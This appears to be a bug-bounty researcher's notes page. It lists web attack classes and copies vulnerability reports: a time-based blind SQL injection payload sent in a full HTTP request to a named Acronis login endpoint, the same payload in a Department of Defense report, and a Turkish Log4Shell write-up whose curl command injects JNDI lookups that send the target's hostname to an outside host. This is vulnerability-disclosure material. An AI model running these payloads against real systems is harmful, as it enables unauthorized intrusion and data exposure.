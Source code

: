 # road

* SSTI (Username and tools)
* sqli 
* File Upload Vulnerabilities
* SSRF Scan
* web cache poisoning
* Os Command Injection
* Path Traversal Injection
* LFI
* 0Auth Injection

```
A1: Injection

A2: Broken Authentication

A3: Sensitive Data Exposure

A4: XML External Entities (XXE)

A5: Broken Access Control

A6: Security Misconfiguration

A7: Cross-Site Scripting (XSS)

A8: Insecure Deserialization

A9: Using Components with Known Vulnerabilities

A10: Insufficient Logging & Monitoring
```
# Sqli Reports 
## 1

I have discovered a SQL injection in https://demor.adr.acronis.com/ using the POST request via the username parameter.
Using the Repearter in Burpsuite I have submitted the following POST request:
```http
POST /ng/api/auth/login HTTP/2
Host: demor.adr.acronis.com
Content-Type: application/json
X-Requested-With: XMLHttpRequest
Referer: https://demor.adr.acronis.com/
Cookie: PHPSESSID=bsrq24l7g5fmth5b683v2b3gu4
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,/;q=0.8
Accept-Encoding: gzip,deflate,br
Content-Length: 148
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/92.0.4512.0 Safari/537.36
{"username":"0'XOR(if(now()=sysdate(),sleep(35),0))XOR'Z","id":"27","password":"cc4226104294e44c5cec9f31cb6de7fa4597e4321b277f4e4b78c3a0ff980956"}
```
Which resulted in a 35 seconds delayed response (one of the print screens, named 35 captured this).
Using various values for the sleep function you get various time responses.
```
0'XOR(if(now()=sysdate(),sleep(15),0))XOR'Z => 15.336
0'XOR(if(now()=sysdate(),sleep(6),0))XOR'Z => 6.332
0'XOR(if(now()=sysdate(),sleep(3),0))XOR'Z => 3.352
0'XOR(if(now()=sysdate(),sleep(15),0))XOR'Z => 15.327
0'XOR(if(now()=sysdate(),sleep(6),0))XOR'Z => 6.337
```

I have attached two print screens from burp showing 16 and 35 seconds responses that were used in the payloads.

____________________

## 2 
 -
-

newcodeslayer137 submitted a report to U.S. Dept Of Defense.
June 10, 2023, 9:32am UTC

Description:
found on the websitehttps://████████ weakness is vulnerable to a blind sql injection.
POC: https:/█████████/0'XOR(if(now()=sysdate(),sleep(15),0))XOR'Z => 15.896
Tests Payload performed:
```
0'XOR(if(now()=sysdate(),sleep(15),0))XOR'Z => 15.896
0'XOR(if(now()=sysdate(),sleep(10),0))XOR'Z => 10.740
0'XOR(if(now()=sysdate(),sleep(2),0))XOR'Z => 2.714
0'XOR(if(now()=sysdate(),sleep(1),0))XOR'Z => 1.927
```
Impact
An attacker can use SQL injection to bypass a web application's authentication and authorization mechanisms and retrieve the contents of an entire database. SQLi can also be used to add, modify and delete records in a database, affecting data integrity. Under the right circumstances, SQLi can also be used by an attacker to execute OS commands, which may then be used to escalate an attack even further.
Best regards,
CodeSlayer137
System Host(s)
███
Affected Product(s) and Version(s)
CVE Numbers
Steps to Reproduce
```https:/██████/0'XOR(if(now()=sysdate(),sleep(15),0))XOR'Z => 15.896```
Suggested Mitigation/Remediation Actions

___________________________________


______________________________________


Bir gün, uygulamanın içinde bir güvenlik açığı olduğunu fark ettim. Bu güvenlik açığı, internette "Log4Shell" olarak bilinen ve ciddi bir tehdit oluşturan bir problem. Log4j adlı bir yazılım kütüphanesi, internetten gelen verileri işlerken bazı hatalar yapıyor ve bu hatalar, kötü niyetli bir kişinin uzaktan, sanki bilgisayarın başında oturuyormuş gibi komutlar çalıştırmasına olanak tanıyor. Bu problem "CVE-2021-44228" koduyla tanımlanmış.

Neler Yaptım:

Bu açığı test etmek için bir yöntem buldum. Bu yöntemde Burp Collaborator adlı bir aracı kullandım. Bu araç, uygulamanın internet üzerinden verdiği tepkileri izlememi sağlıyor.

İlk olarak, bu aracı kullanarak bir komut oluşturdum. Bu komut, belirli bir internet adresine (COLLABORATOR_URL) bir istek gönderiyor. Komutu şu şekilde yazdım:

bash
Kodu kopyala
curl --http1.1 --silent --output /dev/null \
--header 'User-agent: ${jndi:ldap://${hostName}.<COLLABORATOR_URL>/a}' \
--header 'X-Forwarded-For: ${jndi:ldap://${hostName}.<COLLABORATOR_URL>/a}' \
--header 'Referer: ${jndi:ldap://${hostName}.<COLLABORATOR_URL>/a}' \
https://ng01-cloud.acronis.com
Bu Komut Ne Yapar?

Bu komut, belirli başlıklar (User-agent, X-Forwarded-For, Referer) kullanarak uygulamaya istek gönderiyor. Başlıkların içindeki ${jndi:ldap://...} kısmı ise, uygulamanın içindeki Log4j kütüphanesine "Bir internet adresine git ve oradan bazı bilgiler al" diyor.

Eğer bu açığın olduğu bir uygulamaya bu komutu gönderirseniz, Log4j kütüphanesi bu isteği işlerken benim belirttiğim internet adresine bir bağlantı yapmaya çalışıyor. Bu bağlantı başarılı olursa, bu uygulamanın zafiyeti olduğunu kanıtlamış oluyorum.

Sonuç:

Uygulama bana kendi sistem adını (hostname) gönderdi. Bu, uygulamanın dışarıdan gelen bu tehlikeli isteği işlediğini ve sonuç olarak sistemde uzaktan komut çalıştırmanın mümkün olduğunu gösterdi.

Etkisi:

Bu açıktan faydalanan kötü niyetli biri, uygulamaya uzaktan komutlar gönderip, bu komutları sistem üzerinde çalıştırabilir. Bu, sistemin tamamen ele geçirilmesine kadar varabilecek ciddi güvenlik riskleri oluşturur.


